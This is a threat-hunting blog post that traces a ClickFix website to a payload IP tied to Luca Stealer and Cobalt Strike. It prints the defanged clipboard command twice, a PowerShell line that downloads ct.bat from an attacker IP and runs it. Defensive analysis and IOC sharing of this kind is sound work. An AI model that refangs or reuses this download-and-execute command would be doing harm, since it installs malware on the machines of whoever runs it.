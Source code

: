 ```yaml
---
layout: post
title:  "Threat Hunting ClickFix Network IOCs"
date:   2025-09-09 21:00:00 +1000
categories: threat hunting
---
```


<style>
  body { font-size: 16px; }
  body {font-family: 'Inter', sans-serif}
  h1 { font-size: 19px !important; }
  h2 { font-size: 17px !important; }
  h3 { font-size: 15px !important; }
</style>

## Overview

Grabbed a Clickfix IOC from Validin, following the breadcrumbs to see if I can attribute it to an adversary/malware strain.

Going to through out all IOCs and stuff because why not.

### Website serving Clickfix

"quirkyrealty[.]com"

Resolves to an Indian IP. Hosted by 'Web Werks India Pvt. Ltd. was an Indian data center and cloud solutions provider'
![alt text](/images/india_resolved.PNG)

Google dork see what we can get. Looks like a legit business? Well a not very legit one. 
![alt text](/images/quirky_google.PNG)

Booting up my VM to hit the website to see how this is being served.

![alt text](/images/landing_page.PNG)

Alright few points here from the screenshot above.
- No redirects/iframes/weird JS
- Malicious JavaScript exists within the first HTTP request to the domain
- Payload command written in cleartext (whoop whoop)
- Can see a juicy IP and the file 'ct.bat' that is downloaded from there.

Here is the malicious .JS that copies the command to the user's clipboard
- Uses document.execCommand
![alt text](/images/malicious_js.PNG)

Website is likely full comp'd or not legit in the first place.

Here is the full command from the ``command`` variable in the .JS
```const command = `powershell -c "Invoke-WebRequest -Uri 'hXXp://80[.]253[.]249[.]186:5504/ct.bat' -OutFile \"%temp%\ct.bat\" -UseBasicParsing; Start-Process \"%temp%\ct.bat\""`;```

### .Bat? 

```const command = `powershell -c "Invoke-WebRequest -Uri 'hXXp://80[.]253[.]249[.]186:5504/ct.bat' -OutFile \"%temp%\ct.bat\" -UseBasicParsing; Start-Process \"%temp%\ct.bat\""`;```

This is our payload command. Lets remove 'Start-Process', the const declaration and run it in my VM to save the file in temp.

```Invoke-WebRequest -Uri "hXXp://80[.]253[.]249[.]186:5504/ct.bat" -OutFile "C:\Users\ronald\Desktop\NewClicky\safe-file.txt"``

Alright well this is depressing. The file doesn't live on the web server anymore.

![alt text](/images/file_down.PNG)

So lets see what I can figure out about this IP then...

### IP? What are you...

We can see that 'ct.bat' is being served from the IP 80[.]253[.]249[.]186 at port 5504. 

Quick DNSLytics lookup.
![alt text](/images/clickfix_payload_ip.PNG)

What services are running on the IP?

![alt text](/images/shodan_result.PNG)

Fair few... that RCE CVE is juicy...

Anyhow, interesting that we can't see port 5504 here. Because that is the port that historically served 'ct.bat'

Hunt.io states it was last seen on the 9th of September. So I am one day late to the party. 

![alt text](/images/hunt.io_result.PNG)

Without any HTTP response body we can't do much else. Historical data is dry for this port on Censys, Validin and huntio.

For pivoting I'll look into RDP (3389)

A popular pivot from here is the SSL cert SHA_256 hash. Usually you would have to run an OpenSSL command to calculate this. But Validin has already calculated it for us.

![alt text](/images/validin_sha_256.PNG)

Now when we search this hash we have another IP.

![alt text](/images/validin_sha_result.PNG)

Snazzy. This gives us very high confidence they're related as they use the same RDP SSL cert!

Alright, when I whack this IP into VT I get some cool results.

![alt text](/images/VT_result.PNG)

We can see in the communicating files are Luca_Stealer. Specifically a Cobalt Strike beacon used for Luca Stealer. Assumely as a persistence method after exfilitration of initial data.

So, if I had to take an educated guess. I'd say our IP 80[.]253[.]249[.]186 serves the first stage payload for Luca Stealer.
